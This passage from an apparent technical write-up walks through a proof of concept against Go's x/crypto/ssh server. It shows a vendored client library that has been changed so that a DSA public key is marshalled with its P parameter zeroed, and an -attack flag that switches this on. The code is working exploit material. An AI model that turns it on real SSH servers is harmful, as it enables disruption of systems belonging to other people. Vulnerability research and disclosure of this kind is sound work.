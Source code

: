 ```go
    // Accept all channels
    go handleChannels(chans)
}
```

One thing to notice is that `if *p` check. That corresponds to the `-p` parallel flag and controls whether the server creates SSH connections on the main goroutine vs a background goroutine. This will be important when we get to the attack section in a bit.

### The Client

The client code is a little more involved. It needs modifications to the Go SSH library code to allow for sending a malformed DSA key. The SSH library has been vendored in to the client package. Note that the server code is all 100% unchanged and imports the regular golang.org/x/crypto/ssh package from the workspace.

The client works in two separate modes controlled by a command line flag called `-attack`. When the client is started normally, it will make a regular SSH connection to the server and start reading the server's time every few seconds. But when the `-attack` flag is present, the client will send an authentication request to the server with a malformed DSA public key. Relevant bits of code:

```go
func init() {
    flag.Parse()
    if *attack {
        ssh.Attack = true
    }
    if *key == "" {
        log.Fatalln("must provide a auth key.")
    }
}
```

Notice a new var `ssh.Attack` was created in the vendored SSH package and is set to true when the `-attack` flag is present. `ssh.Attack` changes the SSH package's DSA public key marshalling code to replace the P parameter to 0. You can find both of these changes in attack.go and keys.go files in the vendored SSH package.

```go
// attack.go
var (
    // Attack should be set to true to send a malformed DSA key.
    Attack = false
)

// keys.go
func (k *dsaPublicKey) Marshal() []byte {
    x := k.P
    if Attack {
        b := make([]byte, len(k.P.Bytes()))
        x = new(big.Int).SetBytes(b)
    }
    w := struct {
        Name       string
        P, Q, G, Y *big.Int
    }{
        k.Type(),
        x,
        k.Q,
        k.G,
        k.Y,
    }

    return Marshal(&w)
}
```
